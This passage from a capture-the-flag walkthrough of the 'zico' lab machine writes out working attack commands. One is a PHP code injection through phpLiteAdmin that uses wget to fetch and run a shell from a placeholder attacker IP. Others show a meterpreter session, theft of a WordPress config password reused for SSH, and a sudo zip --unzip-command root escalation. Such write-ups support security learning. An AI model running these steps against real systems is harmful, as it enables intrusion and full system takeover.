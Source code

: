 use the phpLiteAdmin exploit stated above and insert ` <?php exec("cd /tmp;wget http://<attackerip>:8000/shell;chmod 777 shell; ./shell") `
if this does not work first try make sure to clear the /tmp folder by adding the `rm shell` command after the `cd /tmp`
if all goes right, a meterpreter session should start.

-----


## snooping around and becoming root

in meterpreter you have some cool commands, you can learn about them from the offical documentation.
first thing I did was drop into a shell session

```
shell
whoami # www-data
cd /
cd home
cd zico
ls
cat to_do.txt
exit  # back in meterpreter session
cd /home/zico/wordpress
download wp-config.php Desktop/wp-config.php

```

opening up the file on our local pc we find out that the config file is filled in and there is a nice password in there `sWfCsfJSPV9H3AmQzw8`
as we know that people like to use same passwords on multiple places, we try to ssh `ssh zico@10.0.2.10` with password `sWfCsfJSPV9H3AmQzw8` and what do you know it works..


```

zico@zico:/$ sudo -l
Matching Defaults entries for zico on this host:
    env_reset, exempt_group=admin, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User zico may run the following commands on this host:
    (root) NOPASSWD: /bin/tar
    (root) NOPASSWD: /usr/bin/zip
zico@zico:/$


```

zico can use root without password for zip and tar commands. we can abuse this by executing the following:

```

touch exploit #create a random file

sudo -u root zip exploit.zip exploit -T --unzip-command= "sh -c /bin/bash" #use root user to zip the exploit, put it in Testing phase (-T) and test it with the unzip-command "sh -c /bin/bash" which will open a shell for us as root!

```

and we are root. Job very well done.



----

